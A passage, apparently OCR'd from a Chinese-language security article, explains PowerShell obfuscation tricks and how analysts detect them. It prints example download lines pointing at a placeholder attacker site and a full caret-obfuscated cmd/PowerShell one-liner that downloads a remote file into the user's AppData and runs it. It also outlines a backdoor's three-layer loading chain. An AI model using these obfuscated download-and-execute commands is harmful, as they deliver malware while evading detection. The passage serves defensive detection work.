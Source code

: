 “attacker”)) `
- 字符串可以使用运算符”-f”格式化。 例子： `(New-Object   Net.WebClient).Downloadstring((http://{2}{1}    –f      ‘no’,   ’.TLD’  , 
‘myAttackerSite’)) `
- 字符串可以用 Base64 UTF8 来压缩或者编码解码。 
- 字符串可以进行加密，比如利用 XOR 
 
在 2010 年，一名日本研究员，完全用符号写了一个”Hello world”的脚本，主要是依靠动态 Invoke-Expressions。这演示了混淆处理如何使脚本更晦涩。 
  
![](/img/hack/powershell/1510020637752.png)

这些方法可以通过递归的方式进行组合和应用，使脚本再命令行中被重重混淆。与任何混淆处理方法一样，如果启用了脚本阻止日志记录和模块日志记录，则可以在分析开始之前应用多个需要处理的隐匿级别，然后在命令记录之前一些混淆将被删除。 

下面一个混淆的命令是用一个自动攻击工具生成的，它使用了^字符来混淆 cmd.exe 命令行，并且混杂大小写和空格来混淆 powershell 脚本。这个命令的参数名和顺序始终相同，准许将其顺序映射到指定的工具。 

```
%SYSTEM%\cmd.exe /c poWerSheLL.exe -eXecutio^nPOlIcy ByPasS^ -n^op^rO^fi^l^e -wIN^dOW^s^tyLe^ hI^d^den^ (n^ew^-^OB^Ject^ ^s^Y^S^tem^.ne^t. we^Bcl^i^ent^)^.^do^wnlo^adf^Ile(^’http://[REMOVED]/ user.php?f=1.dat’,’%USERAPPDATA%.eXe’);^S^tart- 
^PR^O^ce^SS^ %USERAPPDATA%.eXe 
```

值得指出的是，在 111 个活跃的威胁家族软件中，只有 8%使用任何混淆，例如大小写混写。 
有个例子，我们在 2014 年遇到的一个后门木马变体，从简单的 powershll base64 编码开始，第一阶段进行脚本压缩，并通过 Invoke-Expression 调用执行它，这反过来生成了一个脚本，使用 CompileAssemblyFromSource 命令来编译并执行动态嵌入代码，变异后的代码将尝试在挂起状态下执行 rundll32.exe。注入恶意程序到最近创建的进程里，并重启 rundll32 线程。在执行最后的 payload 之前，需要解开这三层混淆。 

### ANTI-OBFUSCATION(反混淆) 

当恶意 powershel 脚本执行，它们大部分会使用 Executionpolicy 和 NoProfile 参数，这些特征给在你环境中找出恶意脚本提供了一个好的思路。而不是搜索 Executionpolicy 关键字，可以缩短，搜索”bypass”和”unrestricted”在 powershell 命令中，在大多数情况下，如果一个脚本被混淆，它们就很像是恶意脚本，作为系统管理员没有必要去混淆他们自己的日常工作脚本。虽然一个模糊的日志可能会欺骗自动分析工具，但是它们逃不出敏锐的安全分析员。

一些工具可以分词脚本，powershell 本身有一个很好的分词方法来分解命令以便进一步分析， Lee Holmes 讨论了命令的频率、特殊字符以及 powershell 脚本本身的功能如何发现混淆，比如大量的引号或大括号表明，一个命令可能已被混淆。 
